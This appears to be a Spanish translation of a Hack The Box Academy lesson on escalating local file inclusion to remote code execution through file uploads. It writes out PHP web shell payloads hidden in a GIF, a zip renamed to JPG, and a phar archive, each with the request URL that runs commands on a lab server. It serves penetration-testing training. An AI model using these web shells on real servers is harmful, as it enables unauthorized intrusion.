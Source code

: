 Las funcionalidades de carga de archivos son omnipresentes en la mayoría de las aplicaciones web modernas, ya que los usuarios suelen necesitar configurar su perfil y el uso de la aplicación web subiendo sus datos. Para los atacantes, la capacidad de almacenar archivos en el servidor backend puede ampliar la explotación de muchas vulnerabilidades, como una vulnerabilidad de inclusión de archivos.

El módulo [File Upload Attacks](https://academy.hackthebox.com/module/details/136) cubre diferentes técnicas sobre cómo explotar formularios y funcionalidades de carga de archivos. Sin embargo, para el ataque que vamos a discutir en esta sección, no necesitamos que el formulario de carga de archivos sea vulnerable, sino simplemente que nos permita subir archivos. Si la función vulnerable tiene capacidades de código `Execute`, entonces el código dentro del archivo que subimos se ejecutará si lo incluimos, independientemente de la extensión o tipo de archivo. Por ejemplo, podemos subir un archivo de imagen (por ejemplo, `image.jpg`), y almacenar un código de web shell PHP dentro de él 'en lugar de datos de imagen', y si lo incluimos a través de la vulnerabilidad LFI, el código PHP se ejecutará y tendremos ejecución remota de código.

Como se mencionó en la primera sección, las siguientes son las funciones que permiten ejecutar código con inclusión de archivos, cualquiera de las cuales funcionaría con los ataques de esta sección:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

---

## Image upload

La carga de imágenes es muy común en la mayoría de las aplicaciones web modernas, ya que subir imágenes se considera ampliamente seguro si la función de carga está codificada de manera segura. Sin embargo, como se discutió anteriormente, la vulnerabilidad en este caso no está en el formulario de carga de archivos, sino en la funcionalidad de inclusión de archivos.

### Crafting Malicious Image

Nuestro primer paso es crear una imagen maliciosa que contenga un código de web shell PHP y que aún parezca y funcione como una imagen. Así que usaremos una extensión de imagen permitida en nuestro nombre de archivo (por ejemplo, `shell.gif`), y también incluiremos los bytes mágicos de la imagen al comienzo del contenido del archivo (por ejemplo, `GIF8`), en caso de que el formulario de carga verifique tanto la extensión como el tipo de contenido. Podemos hacerlo de la siguiente manera:

```r
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Este archivo por sí solo es completamente inofensivo y no afectaría a las aplicaciones web normales en lo más mínimo. Sin embargo, si lo combinamos con una vulnerabilidad LFI, entonces podríamos alcanzar la ejecución remota de código.

**Nota:** Estamos usando una imagen `GIF` en este caso ya que sus bytes mágicos son fáciles de escribir, ya que son caracteres ASCII, mientras que otras extensiones tienen bytes mágicos en binario que tendríamos que codificar en URL. Sin embargo, este ataque funcionaría con cualquier tipo de imagen o archivo permitido. El módulo [File Upload Attacks](https://academy.hackthebox.com/module/details/136) profundiza más en los ataques de tipo de archivo, y la misma lógica puede aplicarse aquí.

Ahora, necesitamos subir nuestro archivo de imagen malicioso. Para hacerlo, podemos ir a la página de `Profile Settings` y hacer clic en la imagen del avatar para seleccionar nuestra imagen, y luego hacer clic en cargar y nuestra imagen debería cargarse correctamente:

`http://<SERVER_IP>:<PORT>/settings.php`

![](https://academy.hackthebox.com/storage/modules/23/lfi_upload_gif.jpg)

### Uploaded File Path

Una vez que hemos subido nuestro archivo, todo lo que necesitamos hacer es incluirlo a través de la vulnerabilidad LFI. Para incluir el archivo subido, necesitamos conocer la ruta a nuestro archivo subido. En la mayoría de los casos, especialmente con imágenes, tendríamos acceso a nuestro archivo subido y podemos obtener su ruta desde su URL. En nuestro caso, si inspeccionamos el código fuente después de subir la imagen, podemos obtener su URL:

```r
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

**Nota:** Como podemos ver, podemos usar `/profile_images/shell.gif` para la ruta del archivo. Si no sabemos dónde se sube el archivo, entonces podemos fuzzear para encontrar un directorio de cargas, y luego fuzzear para encontrar nuestro archivo subido, aunque esto puede no siempre funcionar ya que algunas aplicaciones web ocultan correctamente los archivos subidos.

Con la ruta del archivo subido en la mano, todo lo que necesitamos hacer es incluir el archivo subido en la función vulnerable LFI, y el código PHP debería ejecutarse, de la siguiente manera:

`http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`

![](https://academy.hackthebox.com/storage/modules/23/lfi_include_uploaded_gif.jpg)

Como podemos ver, incluimos nuestro archivo y ejecutamos con éxito el comando `id`.

**Nota:** Para incluir nuestro archivo subido, usamos `./profile_images/` ya que en este caso la vulnerabilidad LFI no prefija ningún directorio antes de nuestra entrada. En caso de que prefijara un directorio antes de nuestra entrada, simplemente necesitamos `../` salir de ese directorio y luego usar nuestra ruta URL, como aprendimos en secciones anteriores.

---

## Zip Upload

Como se mencionó anteriormente, la técnica anterior es muy confiable y debería funcionar en la mayoría de los casos y con la mayoría de los frameworks web, siempre y cuando la función vulnerable permita la ejecución de código. Hay un par de otras técnicas exclusivas de PHP que utilizan wrappers de PHP para lograr el mismo objetivo. Estas técnicas pueden ser útiles en algunos casos específicos donde la técnica anterior no funcione.

Podemos utilizar el wrapper [zip](https://www.php.net/manual/en/wrappers.compression.php) para ejecutar código PHP. Sin embargo, este wrapper no está habilitado por defecto, por lo que este método puede no siempre funcionar. Para hacerlo, podemos comenzar creando un script de web shell PHP y comprimirlo en un archivo zip (llamado `shell.jpg`), de la siguiente manera:

```r
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Nota:** Aunque nombramos nuestro archivo zip como (shell.jpg), algunos formularios de carga aún pueden detectar nuestro archivo como un archivo zip a través de pruebas de tipo de contenido y desactivar su carga, por lo que este ataque tiene una mayor probabilidad de funcionar si se permite la carga de archivos zip.

Una vez que subimos el archivo `shell.jpg`, podemos incluirlo con el wrapper `zip` como (`zip://shell.jpg`), y luego referirnos a cualquier archivo dentro de él con `#shell.php` (codificado en URL). Finalmente, podemos ejecutar comandos como siempre con `&cmd=id`, de la siguiente manera:

`http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`   

![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

Como podemos ver, este método también funciona en la ejecución de comandos a través de scripts PHP comprimidos.

**Nota:** Agregamos el directorio de cargas (`./profile_images/`) antes del nombre del archivo, ya que la página vulnerable (`index.php`) está en el directorio principal.

---

## Phar Upload

Finalmente, podemos usar el wrapper `phar://` para lograr un resultado similar. Para hacerlo, primero escribiremos el siguiente script PHP en un archivo `shell.php`:

```r
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Este script puede compilarse en un archivo `phar` que, cuando se llame, escribiría un web shell en un subarchivo `shell.txt`, con el que podemos interactuar. Podemos compilarlo en un archivo `phar` y renombrarlo a `shell.jpg` de la siguiente manera:

```r
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Ahora, deberíamos tener un archivo phar llamado `shell.jpg`. Una vez que lo subimos a la aplicación web, simplemente podemos llamarlo con `phar://` y proporcionar su ruta URL, y luego especificar el subarchivo phar con `/shell.txt` (codificado en URL) para obtener la salida del comando que especificamos con (`&cmd=id`), de la siguiente manera:

`http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Como podemos ver, el comando `id` se ejecutó con éxito. Ambos métodos con wrappers `zip` y `phar` deben considerarse como métodos alternativos en caso de que el primer método no funcione, ya que el primer método que discutimos es el más confiable de los tres.

**Nota:** Hay otro ataque (obsoleto) de LFI/uploads que vale la pena mencionar, que ocurre si la carga de archivos está habilitada en las configuraciones de PHP y la página `phpinfo()` de alguna manera está expuesta a nosotros. Sin embargo, este ataque no es muy común, ya que tiene requisitos muy específicos para que funcione (LFI + cargas habilitadas + PHP antiguo + `phpinfo()` expuesto). Si estás interesado en saber más sobre esto, puedes referirte a [This Link](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).